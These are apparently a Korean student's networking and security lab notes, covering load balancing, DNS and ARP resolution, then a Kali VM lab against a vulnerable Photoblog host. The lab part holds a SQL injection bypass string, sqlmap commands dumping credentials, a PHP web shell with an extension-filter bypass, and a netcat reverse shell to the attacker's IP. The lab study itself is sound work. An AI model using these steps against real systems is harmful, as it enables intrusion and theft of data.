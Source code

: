 # DAY_5

사용자가 시스템에 요청해서 시스템을 사용하려고 하는데 요청하는 사용자가 많아지면 과부화 생김  
그래서 사용자와 시스템 사이에 L4를 만들어 서비스를 분산하거나 애플리케이션 영역에서 L.B 요청 분산  
L4, LB는 결합 허용이 아님!  
DNS : ~~~ 쿼리 => 마스터가 있고 대체할 수 있는 세컨더리 있음  
이것처럼 LB master와 LB slaver로!  

### 하둡
누군가 요청하면 데이터 노드 쪽에 데이터 저장하거나 분산된 데이터 처리하는 거 필요 -> **네임노드** : 세컨더리 둠, 이중화 되어있다!  
데이터 노드:  

### 시험인감!!? [웹 브라우저에서 구글 사이트 접속 과정]
웹 브라우저에 google.com을 쳤을 때 페이지가 나오는 세부 흐름  
- keyword
   - DNS 스콜  
   - TCP/IP step, Gate way

``` 
1. goolecom의 IP가 뭐지?  
 **(1-1) 메모리 내에 DNS Cache를 먼저 살핀다. :ipconfig/flushdns  
   (1-2) /etc/hosts 본다.**  
    > C:\Windows\System32\drivers\etc의 host 파일에 DNS 적어놓을 수 있음   
    > 그러면 DNS 서버를 참조하는게 아니라 hosts 파일을 참조해서 한다.   

  사용자가 입력한 구글 닷컴의 ip를 알아야 함  
  * DNS 서비스에게 google.com의 IP가 무엇이지?  
    => DNS 서버에게 Query를 해야한다.(168.126.63.1)  
      
  * 실제 통신은(low level 말하는 것) MAC 주소로 통신을 한다.  
    => DNS의 IP주소를 MAC주소로 변환해서 알아야 한다. //DNS : 도메인 -> ip  
      (ARP 프로토콜로 MAC 주소를 알아온다.)    //ARP: ip -> MAC  
```
 
      #### cmd
      > **arp -a**   
      > ip 주소에 대한 MAC 주소(물리적 주소) 나옴  
      그러나 DNS에 대한 ip 주소 없음  
      
      > ipconfig  
      > 서브넷 마스크는 무슨 의미?  
      >  - 뒷자리만 다르면 하나의 네트워크에 있다.
      
      기본적으로 통신은 IP로 진행되는데 실제 통신은 MAC주소로 진행된다.  
      IP를 MAC주소로 바꾸는게 arp다.  
      
      - 게이트를 통해 DNS 서버로 가야함!!!  
      - 서브넷 마스크나 게이트웨이 없으면 어떻게 되는지, MAC주소가 무슨 역할 하는지  

네트워크는 계층적으로 통신함(OSI 7 Layer, TCP/IP 4 Layer)  
![layer](https://user-images.githubusercontent.com/50771111/88609141-5cf2c880-d0be-11ea-8611-cdb2d97571a1.png)

   **subnet mask**     
    (1) 같은 네트워크 영역 => ARP 테이블의 MAC주소로 통신.  
    (2) 다른 네트워크 영역 => 게이트웨이(IP)로 데이터를 보낸다.  
        (게이트웨이의 IP 주소에 대한 MAC 주소로 데이터를 보낸다.)
   
 **====> DNS 쿼리가 이루어졌다.(172.217.161.174)**


```
2. 172.217.161.174 웹서버(구글 웹서버)에 연결을 해야 한다. (TCP)
   * 웹서버는 TCP기반의 HTTP 프로토콜을 이용하고,  
     기본 포트 80 이다. //포트: 프로그램 구분 번호  
     - TCP는 연결 지향 통신(연결 된 것 처럼 쓰겠다.)   
   2-1) TCP 연결을 하기 위해 TCP 3-way handshaking.  

3. (연결이 된 후에) HTTP 요청 (GET...)  

4. HTTP Response(응답) 받고 화면에 데이터를 표시.  

5. 연결을 해제.  
```

#### 준비
> vm에 Web 깔기, kali linux 깔기

#### cmd
> ifconfig // ip 확인  

ping: icmp프로토콜, 네트워크 상태를 모니터링 하고 확인하기 위해 사용하는 프로토콜
> ping www.google.com
> ping www.naver.com
특정 서버가 살아있는지 알기 위해 ping 날렸는데 응답 있으면 살아 있는 것!  
그러나 응답이 없다고해서 죽었다고 할 수는 X, 그냥 서버가 응답 안한거 일 수도 있어서!!
> traceroute www.naver.com
> 하려고 노력은 함!!

> ping 쓰면 살았는지 죽었는지 알 수 있음!

> fping : kali linux가 사용하는 명령어  
> fping -g 10.0.2.0/24  
> 몇 개 alive 한게 있음. 10.0.2.6는 나!  
> 1은 게이트 웨이이고 2,3,3 중에 

#### 포트 스캐닝
> nmap -sT -v 10.0.2.2-4 (alive한 것들 어떤 포트 사용하고 있는지 확인)  

> telnet 10.0.2.4 80(포트번호)  

> kali -> application -> 파이어 폭스 -> 주소창에 10.0.2.4 입력  
>   ==> My Awesome Photoblog 화면 출력!!  

#### 디렉토리 리스팅
> 위에서 사진에서 마우스 우클릭 -> copy Image Location -> 주소창에 입력 -> 뒤에 이미지명 지우기  
>   => Index 파일 리스팅 됨

### [SQL Injection]
```
ID와 PW를 입력하면
id : ' OR '1' = '1--
select count(*) from user_id where id=’' OR '1' = '1’ -- and Pw=’hi’
```
- kali shell  
> sqlmap -u "http://10.0.2.9/cat.php?id=1"  //sql injection에 취약한 URL 파라미터로 던져봄

```
sqlmap -u "http://10.0.2.9/cat.php?id=1"  

sqlmap -u "http://10.0.2.9/cat.php?id=1" --current-db  
    > photoblog 확인  
    
```

포토DB의 테이블 떠보기
> sqlmap -u "http://10.0.2.9/cat.php?id=1" -D photoblog --dump  
>   조금 위로 올려보면 id/pw 나와있는거 볼 수 있음

hash 함수: 고정된 길이. 다른 입력값 -> 다른 출력값, 출력값으로 입력값 예측 불가  
근데 어떻게 풀었지!?!  
   - 중국에서 해쉬값 풀어놓은 테이블 O -> 레인보우 테이블 
   
**id/pw로 로그인 가능한거 확인함!!**

#### shell 코드 올리기
1.  shell 코드 만들기
   > vi hack.php
   > ---------------------
   > <?php
   > system($_GET['cmd']);
   > ?>
   > --------------------
   > ==> php 파일 안올라감 
   
   > 해결법: php 파일 확장자명 대문자로 바꾸기  
   > mv hack.php hack.PHP  
   > 그리고 페이지에서 add 하면 됨!!
   
#### reverse telnet
클라언트가 접속해서 서버에 명령을 보내 실행하는거지  
클라이언트가 접속해서 서버가 명령 보내 실행하는거 X  

만약 방화벽 안에 우리가 장악한 서버가 있으면! 리버스 telnet을 이용해서 제어

kali
```
> nc -lvnp 7000 실행
> lisen 상태

> 홈페이지 주소 창 뒤에 cmd=nc 10.0.2.6(칼리 IP) 7000  -e /bin/sh
>  shell 창에서 connect 된 거 볼 수 있음


#### [참고자료]
https://wikidocs.net/73468 //R 통계 기초 점추정량 보고!! 전문과정 들어가기 전에 보깅

